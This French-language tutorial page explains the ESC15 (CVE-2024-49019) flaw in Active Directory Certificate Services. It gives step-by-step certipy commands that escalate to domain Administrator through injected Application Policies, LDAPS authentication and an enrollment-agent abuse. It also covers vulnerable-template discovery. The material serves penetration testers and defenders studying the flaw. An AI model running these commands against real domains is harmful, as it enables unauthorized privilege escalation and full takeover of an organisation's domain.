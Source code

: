 # ESC15

***

## <mark style="color:red;">ESC15 (CVE-2024-49019 "EKUwu")</mark>

***

### <mark style="color:blue;">📖 1. Les Bases : le monde des certificats (ADCS)</mark>

#### <mark style="color:green;">🔐 Qu’est-ce qu’un certificat ?</mark>

* Un **certificat numérique X.509** est un fichier signé par une **autorité de certification (CA)** qui :
  * identifie une entité (utilisateur, serveur)
  * donne certains **droits cryptographiques** (authentification, signature, etc.)

#### <mark style="color:green;">🧱 Composants principaux d’un certificat :</mark>

| Élément                            | Description                                                  |
| ---------------------------------- | ------------------------------------------------------------ |
| **Subject**                        | Nom de la personne ou machine à qui appartient le certificat |
| **SAN** (Subject Alternative Name) | D’autres identifiants comme UPN (`user@domain.local`)        |
| **Public Key**                     | Clé publique associée à l’identité                           |
| **Extensions**                     | Fonctions autorisées (par EKU ou Application Policies)       |
| **Signature**                      | Le CA signe le tout pour certifier son authenticité          |

***

#### 🏛️ Qu’est-ce qu’un CA (Certificate Authority) ?

* Un **CA** est un **serveur Windows** qui gère la délivrance de certificats.
* Dans un environnement Active Directory, il s'agit de **Active Directory Certificate Services (ADCS)**.

***

### <mark style="color:blue;">🧾 2. Qu’est-ce qu’un CSR (Certificate Signing Request) ?</mark>

> **CSR = une demande de certificat.**

#### <mark style="color:green;">🔧 Contenu d’un CSR :</mark>

| Élément                 | Exemple                          |
| ----------------------- | -------------------------------- |
| Subject                 | `CN=administrator`               |
| SAN                     | `UPN=administrator@corp.local`   |
| Public Key              | Clé publique RSA ou ECC          |
| Extensions optionnelles | Application Policies, EKUs, etc. |

Un **CSR est envoyé au CA** → le CA le **valide** et renvoie un certificat signé.

***

### <mark style="color:blue;">🧩 3. Qu’est-ce que l’EKU et les Application Policies ?</mark>

#### <mark style="color:green;">✅ EKU (Extended Key Usage)</mark>

* Indique **à quoi sert un certificat**.
* C’est un champ dans le certificat contenant une ou plusieurs **OID** (Object Identifier).

**🔑 OID importants :**

| But                            | Nom                         | OID                      |
| ------------------------------ | --------------------------- | ------------------------ |
| S’authentifier comme client    | `Client Authentication`     | `1.3.6.1.5.5.7.3.2`      |
| Certificat de serveur          | `Server Authentication`     | `1.3.6.1.5.5.7.3.1`      |
| Agent de demande de certificat | `Certificate Request Agent` | `1.3.6.1.4.1.311.20.2.1` |
| Usage illimité                 | `Any Purpose`               | `2.5.29.37.0`            |

***

#### <mark style="color:green;">📘 Application Policies vs EKU</mark>

* **EKU** = ce que le certificat est **autorisé à faire** selon le template.
* **Application Policies** = extension similaire, **parfois interprétée différemment** par Windows (ex: Schannel, KDC).
* Sur les **Templates V1**, le CA **copie automatiquement** les EKU → Application Policies.

Mais...

👉 **Si tu modifies directement Application Policies dans le CSR**, **le CA V1 vulnérable ne le filtre pas !** (c’est la faille ESC15)

***

### <mark style="color:blue;">🧨 4. Qu’est-ce que ESC15 (CVE-2024-49019) ?</mark>

#### 💣 Résumé

> ESC15 = **faille logique** dans le traitement des CSR sur des **templates V1** avec `Enrollee Supplies Subject`.

Le CA :

* **lit les Application Policies injectées dans le CSR**
* **les ajoute au certificat final**, même si le **template ne les autorise pas**

***

#### <mark style="color:green;">🧷 Conditions nécessaires :</mark>

| Élément                             | Explication                                                                 |
| ----------------------------------- | --------------------------------------------------------------------------- |
| CA non patché                       | Pas de correctif de Nov. 2024                                               |
| Template V1                         | Template simple, pas de validation des Application Policies                 |
| `Enrollee Supplies Subject` = TRUE  | Permet à l’attaquant de définir `Subject`, `SAN`, et ajouter des extensions |
| L’attaquant a le droit d’enrôlement | Doit pouvoir demander un certificat                                         |

***

### <mark style="color:blue;">🧬 5. Exemple de scénario offensif complet</mark>

***

#### <mark style="color:green;">🎭 Cas 1 : Se faire passer pour Administrator via Schannel</mark>

***

**🧾 Étape 1 – Demande de certificat piégé**

```bash
certipy req \
  -u 'attacker@corp.local' -p 'Passw0rd!' \
  -dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
  -ca 'CORP-CA' -template 'WebServer' \
  -upn 'administrator@corp.local' \
  -sid 'S-1-5-21-...-500' \
  -application-policies 'Client Authentication'
```

➡️ Cela injecte un certificat qui :

* A pour SAN : `administrator@corp.local`
* Contient l’OID `Client Authentication` → peut être utilisé pour se connecter à LDAPS

***

**🔑 Étape 2 – Authentification sur LDAPS**

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.100 -ldap-shell
```

Tu es maintenant **authentifié comme `Administrator` via certificat**, sans mot de passe ni hash. ✅

***

#### <mark style="color:green;">🧙‍♂️ Cas 2 : Abus d'agent d’enrôlement (ESC3-like)</mark>

***

**🧾 Étape 1 – Obtenir un certificat "Certificate Request Agent"**

```bash
certipy req \
  -u 'attacker@corp.local' -p 'Passw0rd!' \
  -dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
  -ca 'CORP-CA' -template 'WebServer' \
  -application-policies 'Certificate Request Agent'
```

***

**🧾 Étape 2 – Demander un certificat pour `Administrator`**

```bash
certipy req \
  -u 'attacker@corp.local' -p 'Passw0rd!' \
  -dc-ip '10.0.0.100' -target 'CA.CORP.LOCAL' \
  -ca 'CORP-CA' -template 'User' \
  -pfx 'attacker.pfx' -on-behalf-of 'CORP\Administrator'
```

***

**🔐 Étape 3 – Obtenir un TGT via PKINIT**

```bash
certipy auth -pfx administrator.pfx -dc-ip 10.0.0.100
```

➡️ Tu as maintenant :

* Le **TGT** de l’administrateur
* Son **hash NTLM**
* Et **contrôle total**

***

### <mark style="color:blue;">🔎 6. Comment détecter les templates vulnérables ?</mark>

```bash
certipy find -u attacker@corp.local -p 'Passw0rd!' -dc-ip 10.0.0.100
```

Cherche :

* `Schema Version: 1`
* `Enrollee Supplies Subject: True`
* `User Enrollable Principals` → ton user présent
* `[*] Remarks ESC15`

***
